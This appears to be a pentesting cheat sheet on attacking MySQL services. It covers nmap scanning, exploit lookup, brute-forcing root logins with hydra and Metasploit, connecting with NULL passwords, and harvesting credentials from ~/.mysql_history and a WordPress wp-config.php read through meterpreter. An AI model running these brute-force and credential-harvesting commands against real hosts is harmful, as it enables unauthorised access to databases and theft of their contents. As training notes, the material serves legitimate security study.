 # MySQL

- Basic nmap scan.
```
nmap -Pn -sV -sC -p3306 <ip>
```

- Check for existing exploits.
```
searchsploit MySQL <version>
```
```
search MySQL <version>
```

- Check MySQL version.
```
use auxiliary/scanner/mysql/mysql_version
```

- Brute-force MySQL login.
  - Focus on root.
  - root password can be NULL.
  - hydra does not attempt NULL password?
```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```

- Brute-forcing can result in host being blocked.
  - Need shell on target and MySQL account to run `mysqladmin flush-hosts`.
  - Avoid brute-forcing MySQL? Test for NULL credentials manually.
```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

- Connect to MySQL remotely.
  - Press Enter for password if NULL.
```
mysql -u root -p -h <ip>
```

- Basic SQL commands.
```
show databases;
use <database>;
show tables;
select * from <table>;
```

- Check users' mysql history file for credentials and other information.
```
cat ~/.mysql_history
```

- Check Web app config file for MySQL root password e.g. WordPress (WAMP).
  - Requires admin privileges.
```
meterpreter > cat C:\\wamp\\www\\wordpress\\wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '');
```
